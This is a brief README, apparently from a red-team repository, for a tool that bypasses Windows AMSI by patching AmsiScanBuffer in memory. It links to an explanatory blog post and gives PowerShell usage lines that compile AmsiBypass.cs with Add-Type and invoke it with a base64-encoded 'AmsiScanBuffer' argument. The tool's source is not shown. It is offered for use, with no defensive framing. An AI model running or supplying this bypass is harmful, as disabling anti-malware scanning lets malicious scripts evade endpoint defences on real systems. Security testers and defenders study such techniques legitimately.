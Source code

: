 # AmsiScanBufferBypass
Bypass AMSI by patching AmsiScanBuffer.

https://rastamouse.me/memory-patching-amsi-bypass/

# PRAC1 How to use
Open up a PowerShell, cd to your directory and:

    $source = Get-Content -Delimiter "`n" -Path .\AmsiBypass.cs
    Add-Type -TypeDefinition "$source"
    [AmsiBypass]::Main("QW1zaVNjYW5CdWZmZXI=")
